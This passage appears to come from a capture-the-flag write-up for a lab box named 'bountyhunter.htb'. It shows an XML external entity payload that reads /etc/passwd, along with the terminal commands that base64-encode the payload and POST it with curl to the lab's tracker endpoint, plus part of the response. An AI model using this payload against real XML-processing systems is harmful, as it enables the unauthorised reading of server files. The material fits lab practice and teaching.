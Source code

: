 ```
    <td>Title:</td>
    <td>XXE TEST</td>

[SNIP]
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload SYSTEM "file:///etc/passwd">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>
```

```
┌──(nabla㉿kali)-[~]
└─$ vim xxe_payload.txt

<?xml version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE bountyhunter [
		<!ENTITY payload SYSTEM "file:///etc/passwd">
		]>
		<bugreport>
		<title>&payload;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1337</reward>
		</bugreport>

┌──(nabla㉿kali)-[~]
└─$ payload=$(cat xxe_payload.txt | base64 -w 0)

┌──(nabla㉿kali)-[~]
└─$ curl 'http://bountyhunter.htb/tracker_diRbPr00f314.php' -X POST --data-urlencode "data=$payload"

[SNIP]

    <td>Title:</td>
    <td>XXE TEST</td>

[SNIP]
```
